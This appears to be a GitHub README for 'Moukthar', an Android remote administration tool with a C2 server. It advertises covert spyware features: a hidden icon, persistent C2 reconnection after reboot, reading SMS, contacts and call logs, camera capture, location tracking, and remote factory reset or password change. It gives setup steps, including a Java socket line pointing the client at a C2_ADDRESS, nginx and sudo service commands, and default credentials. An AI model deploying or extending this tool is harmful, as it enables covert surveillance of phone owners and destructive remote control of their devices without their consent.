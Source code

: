 # Moukthar

Codebase foundation for an Android Remote Administration Tool with C2 Server

## Features
- Persistent reconnection with C2 regardless if the client application is closed or placed in background or the device is restarted or current connection is interrupted
- Hidden App Icon
- Send/Read SMS
- Write/Read Contacts
- Read Call Log
- Dial USSD code without opening dialer (API 26+)
- Take Picture (Front/Back camera)
- Take Screenshot
- Make Phone Call
- List Installed Apps
- Vibrate Phone
- Get Device Location
- Change Wallpaper
- Factory Reset Device
- Reboot Device
- Change Device Password

![Android](https://img.shields.io/badge/Android-3DDC84?style=for-the-badge&logo=android&logoColor=white)
![Flask](https://img.shields.io/badge/Flask-FFFFFF?style=for-the-badge&logo=flask&logoColor=black)
![Java](https://img.shields.io/badge/java-%23ED8B00.svg?style=for-the-badge&logo=java&logoColor=white)

## NB
```
USERNAME: android
PASSWORD: the rastafarian in me
```
<!-- PEM PASS PHRASE: android -->
Replace the domain value with your ip/domain in ```__init__.py``` wherever you see the line
```python
resp.set_cookie(key="", value="", expires="", domain="your ip/domain")
```
to enable Remember Me functionality in the Login page.

Specify the ip/domain of the C2 server in the [Client app](client/app/src/main/java/com/ot/androidrat/MainService.java#L32).

```java
Socket ioSocket = IO.socket(URI.create("http://C2_ADDRESS:5001"));
```

## Production Environment Setup
For linux envitonments, run ```server/setup.sh``` with a privileged user to make moukthar a service.
```console
user@pc1:~/moukthar$ chmod +x ./server/setup.sh
user@pc1:~/moukthar$ sudo ./server/setup.sh
```

### Nginx
```/etc/nginx/sites-available/moukthar```
```nginx
server{
    listen 80;
    server_name moukthar;
    access_log /var/log/nginx/moukthar.access.log;
    error_log /var/log/nginx/moukthar.error.log;

    location / {
       include proxy_params;
       proxy_pass https://127.0.0.1:5001;
    }
}
```
## Screenshots
![Login Page](screenshots/login.png)
![Dashboard](screenshots/dashboard.png)
![Terminal](screenshots/terminal.png)
![SMS](screenshots/sms.png)
![Files](screenshots/files.png)
![Reset Password](screenshots/reset%20password.png)
![Client app requesting permissions 1](screenshots/app-permission1.png)
![Client app requesting permissions 2](screenshots/app-permission2.png)
![Client app](screenshots/client-app.png)

## Warning
THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.


